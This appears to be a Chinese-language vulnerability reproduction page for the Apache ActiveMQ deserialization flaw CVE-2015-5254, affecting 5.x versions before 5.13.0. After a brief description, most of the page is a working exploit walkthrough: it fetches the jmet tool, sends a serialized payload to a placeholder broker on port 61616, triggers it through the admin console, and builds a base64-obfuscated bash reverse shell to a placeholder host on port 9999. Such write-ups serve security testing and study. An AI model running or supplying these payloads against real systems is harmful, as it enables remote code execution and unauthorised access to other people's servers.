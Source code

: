```yaml
---
Title: Apache ActiveMQ 反序列化漏洞 CVE-2015-5254
---
```


# Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache ActiveMQ 5.13.0之前5.x版本</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="首先下载 jmet https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar" description="" showIcon>
</a-alert>

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成`/tmp/vuln`的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

访问 `http://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event `可以看到多了一条消息队列

![image-20220308145025293](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220308145025293.png)

点击这个信息触发文件创建

![image-20220308145111363](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220308145111363.png)

成功执行命令创建文件，也可以创建一个`反弹shell`的payload

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME xxx.xxx.xxx.xxx 61616
```

同样点击消息队列会触发命令执行

![image-20220308145310216](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220308145310216.png)